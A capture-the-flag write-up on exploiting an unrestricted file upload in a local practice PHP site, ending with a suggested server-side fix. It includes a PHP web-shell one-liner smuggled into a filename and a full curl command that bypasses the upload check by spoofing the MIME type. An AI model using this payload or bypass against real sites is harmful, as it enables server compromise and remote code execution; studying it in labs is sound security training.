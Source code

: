 ## [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

This vulnerability is on the fie upload page: http://localhost:8080/index.php?page=upload.

By tring to upload several files, we can see that we can seemingly only send `.jpg` or `.jpeg` files:

- `test.jpeg` → `/tmp/test.jpeg succesfully uploaded.`
- `test.png` → `Your image was not uploaded.`
- `test.php` → `Your image was not uploaded.`

Path traversal doesn't work here: http://localhost:8080/?page=../../../../../../../tmp and
http://localhost:8080/?page=../../../../../../../tmp/test.jpeg only says `You can DO it !!!  :]`.

We tried to execute code during the filename validation with a file called `'<?php system($_GET[cmd]); ?>.jpeg'`, however it only results in `/tmp/.jpeg succesfully uploaded.`.

With `curl`, by copying the request sent from a browser and hardcoding the MIME type to `image/jpeg` while sending a PHP file, we get the flag:

```console
$ curl -X POST 'http://localhost:8080/index.php?page=upload#' -H 'Content-Type: multipart/form-data' -F 'uploaded=@unrestricted_file_upload/resources/test.php;type=image/jpeg' -F 'MAX_FILE_SIZE=100000' -F 'Upload=Upload' | grep flag
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

The vulnerability can be fixed with stronger server-side validation, checking that the file corresponds to the MIME type.
